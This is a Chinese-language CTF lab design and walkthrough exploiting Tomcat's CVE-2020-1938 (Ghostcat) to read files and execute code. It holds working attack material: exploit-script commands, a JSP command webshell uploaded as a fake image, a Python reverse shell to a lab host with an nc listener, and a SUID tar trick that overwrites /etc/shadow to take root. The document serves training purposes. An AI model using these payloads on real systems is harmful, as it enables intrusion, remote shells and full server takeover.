[TOC]

# 渗透题 - 出题思路（CVE-2020-1938 / CNVD-2020-10487）

## 学习要点

+ CVE-2020-1938文件读取/远程代码执行
+ 反弹shell
+ SUID提权

## 设计思路

本题中一共有3个flag，需要逐步渗透获取。

1. Web根目录存在一个`flag.jsp`文件，其中有第一个flag，但直接访问不会显示。需要使用某种方法读取源码。

2. `/etc/passwd`中存在一个flag，但使用获取第一个flag的方法无法获取该flag。原因是Java自身安全措施做得较好，不能直接路径穿越读取自身webapp以外的文件。需要代码执行功能来读取。
3. `/root/flag`中存在一个flag，需要提权后才能读取。

## 操作步骤

该站点提供了图片上传功能。



但是校验机制是白名单。



而且会对文件进行重命名，不存在解析漏洞。





### 第一个flag（flag.jsp）

根据`robots.txt`提示，存在一个`flag.jsp`文件。



但直接访问看不到。




使用`CVE-2020-1938`漏洞读取该文件源码，可见flag。

```
python3 2020-10487.py 10.0.0.39 -p 8009 -f flag.jsp
```




### 第二个flag（/etc/passwd）

使用直接尝试读取`/etc/passwd`，并不会成功。

```
python3 2020-10487.py 10.0.0.39 -p 8009 -f /etc/passwd
```






原因是Java的安全机制造成的，通过web方法访问会被限制在webapp目录中，无法路径穿越。需要使用其他方法。

该漏洞可以导致读取文件和远程代码执行。远程代码执行需要文件上传功能配合。该webapp正好提供了上传功能。

编写JSP脚本

```jsp
<%@page import="java.io.*"%>
<%
	String cmd = "cat /etc/passwd";
	Process process = Runtime.getRuntime().exec(cmd);
	DataInputStream in = new DataInputStream(process.getInputStream());
	for (;;) {
		String line = in.readLine();
		if (null == line) {
			break;
		} else {
			out.print(line);
		}
	}
%>
```

将其扩展名改为合法的图片类型，例如`give_me_flag.jpg`，成功上传。



通过漏洞包含执行上述代码。

```
python3 2020-10487.py 10.0.0.39 -p 8009 -f upload/1583473803009-e97299befc134974b09183ed9e1061d2.jpg --rce 1
```





### 第三个flag（/root/flag）

使用第二步同样的方法，并不会成功。

```jsp
<%@page import="java.io.*"%>
<%
	String cmd = "cat /root/flag";
	Process process = Runtime.getRuntime().exec(cmd);
	DataInputStream in = new DataInputStream(process.getInputStream());
	for (;;) {
		String line = in.readLine();
		if (null == line) {
			break;
		} else {
			out.print(line);
		}
	}
%>
```



原因是`/root/flag`只有root用户才能访问。很明显，需要提权。根据上一步的提示，使用SUID进行提权。

在提权之前，为了操作方便，最好能反弹获得一个可交互shell。

本地使用

```
nc -lvvp 4444
```

进行监听。


通过`pwd`命令获取当前目录`/usr/share/tomcat`

得到绝对路径`/usr/share/tomcat/webapps/ROOT/upload/`

上传一个反弹用的python脚本。

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.0.0.10',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);
```

路径为`/usr/share/tomcat/webapps/ROOT/upload/1583474718400-ad3515c408474508bb422b2393a9cf64.png`

并执行`python/usr/share/tomcat/webapps/ROOT/upload/1583474718400-ad3515c408474508bb422b2393a9cf64.png` 。

```
python3 2020-10487.py 10.0.0.39 -p 8009 -f upload/1583475511057-96cb11a82462415a892057da63c1d0a6.jpg --rce 1
```

成功反弹shell。


```
python -c 'import pty;pty.spawn("/bin/bash")'
```

以上命令可获得更好的体验。如果没有执行成功也没关系。


使用以下命令查找SUID程序

```
find / -user root -perm -4000 -print 2>/dev/null
```



其中有一个`/usr/bin/tar`本来不应为SUID的程序，但是可能由于管理员的疏忽，将其设置为SUID程序了。可以使用`tar`命令来进行提权。

`tar`提权基本思路是改写`/etc/shadow`文件。

由于其可以按照root用户身份运行，将`/etc/shadow`文件打包，下载至本地，在本地将其中密码字段进行替换，更改为已知的加密密码，并打包。传回服务器，使用`tar`解包覆盖`/etc/shadow`文件，即可修改root密码，获得root权限。

1. 打包`/etc/shadow`

```
tar zcf /tmp/a.tgz /etc/shadow
```

将`a.tgz`下载回本地。存放在`/tmp`目录下。

```
tar zxf a.tgz
```

解包后，文件存在于`/tmp/etc/shadow`

其中原始数据为：

```
root:$6$/KoPexQp$dfAojbpUkSnwLd.ejZVqbaCxNwEAkbucO57MFEkLBEuTQs14FTnYn4czN05m4mHjBzEbpnMIq2O04SzQ4wwhj/:18327:0:99999:7:::
```


2. 修改密码

本地随便添加一个用户，设置密码为`123`，数据如下：

```
temp:$6$SPhaESjTfxMdrq9B$PF1yOIqSZDS5AE1tOin0kC43NoJf/J9HhbPri6/BSmQVMzmBAvggKvIhZSZyWRcveWohh6tJ4rn5/GMW3QGJK0:18268:0:99999:7:::
```

将其中第二段数据`$6$SPhaESjTfxMdrq9B$PF1yOIqSZDS5AE1tOin0kC43NoJf/J9HhbPri6/BSmQVMzmBAvggKvIhZSZyWRcveWohh6tJ4rn5/GMW3QGJK0`覆盖到`/tmp/etc/shadow`文件中，即：

```
root:$6$SPhaESjTfxMdrq9B$PF1yOIqSZDS5AE1tOin0kC43NoJf/J9HhbPri6/BSmQVMzmBAvggKvIhZSZyWRcveWohh6tJ4rn5/GMW3QGJK0:18327:0:99999:7:::
```

保存后，本地使用`tar`再打包。

```
cd /tmp
sudo tar zcf b.tgz etc
```


3. 覆盖`/etc/shadow`

将`b.tgz`文件上传至服务器，使用以下命令覆盖`/etc/shadow`

```
tar zxf b.tgz -C /
```

当`/etc/shadow`被覆盖后，即可`su`再输入密码`123`成功拿到root权限




## 总结

本次渗透使用tomcat的CVE-2020-1938漏洞进行文件读取、远程代码执行，并通过拥有SUID的`tar`进行修改root密码进行提权。

涉及技能：

+ CVE-2020-1938漏洞利用脚本的使用
+ JSP执行命令的脚本编写
+ 反弹shell，包括python脚本与nc本地监听
+ `tar`打包、解包命令
+ `/etc/shadow`文件内容的理解